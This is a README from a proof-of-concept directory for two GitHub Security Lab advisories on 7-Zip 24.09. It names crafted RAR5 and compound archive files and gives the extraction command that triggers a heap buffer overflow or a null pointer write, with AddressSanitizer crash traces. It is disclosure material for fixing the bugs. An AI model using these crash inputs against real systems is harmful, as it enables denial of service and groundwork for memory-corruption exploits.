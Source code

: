 # This directory contains proof of concept for GHSL-2025-058 (CVE-2025-53816) and GHSL-2025-059 (CVE-2025-53817) advisories.

## GHSL-2025-058 (CVE-2025-53816)

The `rar-crash.rar5` triggers heap buffer write overflow when 7zz 24.09 is compiled with ASAN and extracted, for example as `7zz e -so rar-crash.rar5`. On Windows the same PoC was tested to crash 7-Zip 24.09 even without ASAN. [The advisory](https://securitylab.github.com/advisories/GHSL-2025-058_7-Zip/).

```
==2188082==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x7fc75fbcc844 at pc 0x5567af835070 bp 0x7fff7f71ce30 sp 0x7fff7f71c600
WRITE of size 9469 at 0x7fc75fbcc844 thread T0
    #0 0x5567af83506f in __asan_memset /src/llvm-project/compiler-rt/lib/asan/asan_interceptors_memintrinsics.cpp:67:3
    #1 0x5567b0167b0c in My_ZeroMemory(void*, unsigned long) /src/7-zip/CPP/7zip/Bundles/Alone2/../../Compress/Rar5Decoder.cpp:63:5
    #2 0x5567b017c257 in NCompress::NRar5::CDecoder::Code(ISequentialInStream*, ISequentialOutStream*, unsigned long const*, unsigned long const*, ICompressProgressInfo*) /src/7-zip/CPP/7zip/Bundles/Alone2/../../Compress/Rar5Decoder.cpp:1905:11
    #3 0x5567aff075c0 in NArchive::NRar5::CUnpacker::Code(NArchive::NRar5::CItem const&, NArchive::NRar5::CItem const&, unsigned long, ISequentialInStream*, ISequentialOutStream*, ICompressProgressInfo*, bool&) /src/7-zip/CPP/7zip/Bundles/Alone2/../../Archive/Rar/Rar5Handler.cpp:1165:24
    #4 0x5567aff24721 in NArchive::NRar5::CHandler::Extract(unsigned int const*, unsigned int, int, IArchiveExtractCallback*) /src/7-zip/CPP/7zip/Bundles/Alone2/../../Archive/Rar/Rar5Handler.cpp:3293:25
    #5 0x5567b0244c0b in DecompressArchive(CCodecs*, CArchiveLink const&, unsigned long, NWildcard::CCensorNode const&, CExtractOptions const&, bool, IExtractCallbackUI*, IFolderArchiveExtractCallback*, CArchiveExtractCallback*, UString&, unsigned long&) /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Common/Extract.cpp:235:23
    #6 0x5567b023fe41 in Extract(CCodecs*, CObjectVector<COpenType> const&, CRecordVector<int> const&, CObjectVector<UString>&, CObjectVector<UString>&, NWildcard::CCensorNode const&, CExtractOptions const&, IOpenCallbackUI*, IExtractCallbackUI*, IFolderArchiveExtractCallback*, IHashCalc*, UString&, CDecompressStat&) /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Common/Extract.cpp:542:5
    #7 0x5567b02f9d8a in Main2(int, char**) /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Console/Main.cpp:1378:21
    #8 0x5567b0305b34 in main /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Console/MainAr.cpp:162:11
```

## GHSL-2025-059 (CVE-2025-53817)

The `compound-crash.poc` triggers null pointer write dereference when 7zz is compiled with ASAN and extracted, for example as `7zz e -so compound-crash.poc`. On Windows the same PoC was tested to crash 7-Zip 24.09 even without ASAN. [The advisory](https://securitylab.github.com/advisories/GHSL-2025-059_7-Zip/).

```
==2387581==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x5615317c0993 bp 0x7ffcb31a1350 sp 0x7ffcb31a1300 T0)
==2387581==The signal is caused by a WRITE memory access.
==2387581==Hint: address points to the zero page.
    #0 0x5615317c0993 in CRecordVector<unsigned int>::AddInReserved(unsigned int) ../../Archive/../../Common/MyVector.h:249:18
    #1 0x5615317bfe66 in NArchive::NCom::CHandler::GetStream(unsigned int, ISequentialInStream**) /src/7-zip/CPP/7zip/Bundles/Alone2/../../Archive/ComHandler.cpp:866:28
    #2 0x5615317bea3d in NArchive::NCom::CHandler::Extract(unsigned int const*, unsigned int, int, IArchiveExtractCallback*) /src/7-zip/CPP/7zip/Bundles/Alone2/../../Archive/ComHandler.cpp:806:20
    #3 0x561531e94bbb in DecompressArchive(CCodecs*, CArchiveLink const&, unsigned long, NWildcard::CCensorNode const&, CExtractOptions const&, bool, IExtractCallbackUI*, IFolderArchiveExtractCallback*, CArchiveExtractCallback*, UString&, unsigned long&) /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Common/Extract.cpp:235:23
    #4 0x561531e8fdf1 in Extract(CCodecs*, CObjectVector<COpenType> const&, CRecordVector<int> const&, CObjectVector<UString>&, CObjectVector<UString>&, NWildcard::CCensorNode const&, CExtractOptions const&, IOpenCallbackUI*, IExtractCallbackUI*, IFolderArchiveExtractCallback*, IHashCalc*, UString&, CDecompressStat&) /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Common/Extract.cpp:542:5
    #5 0x561531f49d3a in Main2(int, char**) /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Console/Main.cpp:1378:21
    #6 0x561531f55ae4 in main /src/7-zip/CPP/7zip/Bundles/Alone2/../../UI/Console/MainAr.cpp:162:11
```